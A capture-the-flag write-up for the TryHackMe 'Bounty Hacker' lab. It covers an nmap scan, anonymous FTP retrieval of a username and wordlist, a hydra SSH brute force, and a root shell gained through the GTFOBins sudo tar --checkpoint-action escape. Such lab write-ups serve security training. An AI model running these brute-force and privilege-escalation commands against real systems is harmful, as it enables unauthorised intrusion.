










# TryHackMe — Bounty Hacker

**Category:** TryHackMe / Bounty Hacker  
**Difficulty:** Easy  
**Date:** 2026-08-19

## Goal

Cowboy Bebop-themed boot-to-root — enumerate the box, get a foothold, and grab user.txt and root.txt.

## Solution

Scanned the box first:

    nmap -sC -sV 10.48.188.79

Three ports open: 21 (FTP, vsftpd 3.0.5), 22 (SSH), and 80 (Apache). The scan also flagged that anonymous FTP login was allowed, so that was the way in.

Logged into FTP anonymously and listed the directory — two files, `locks.txt` and `task.txt`:

    ftp 10.48.188.79
    Name: anonymous
    ftp> ls

Pulled both files down:

    ftp> get locks.txt
    ftp> get task.txt

`task.txt` was a short to-do list signed off by **lin** — a username:

    cat task.txt

`locks.txt` was a long list of password-looking strings — a ready-made wordlist:

    cat locks.txt

So: a username from one file, a candidate password list from the other, and SSH open. Fed both straight into hydra against SSH:

    hydra -l lin -P locks.txt ssh://10.48.188.79

Hydra found a valid password for `lin` in seconds. SSH'd in with it:

    ssh lin@10.48.188.79

Grabbed the user flag from the Desktop:

    whoami
    ls
    cat user.txt

For privesc, checked sudo rights:

    sudo -l

`lin` can run `/bin/tar` as root. `tar` has a well-known GTFOBins escape — its `--checkpoint-action` option runs an arbitrary command, so pointing it at a shell gives a root shell:

    sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
    # whoami
    root

From the root shell, read the root flag:

    ls -la /root
    cat /root/root.txt

## Result

    User flag: [REDACTED]
    Root flag: [REDACTED]

## Key Takeaway

The whole box hinges on treating two anonymous-FTP files as what they are — a username and a wordlist — and feeding them straight to hydra. And once `sudo -l` shows `tar`, that's root: its `--checkpoint-action` flag is a documented GTFOBins escape, no exploit needed.
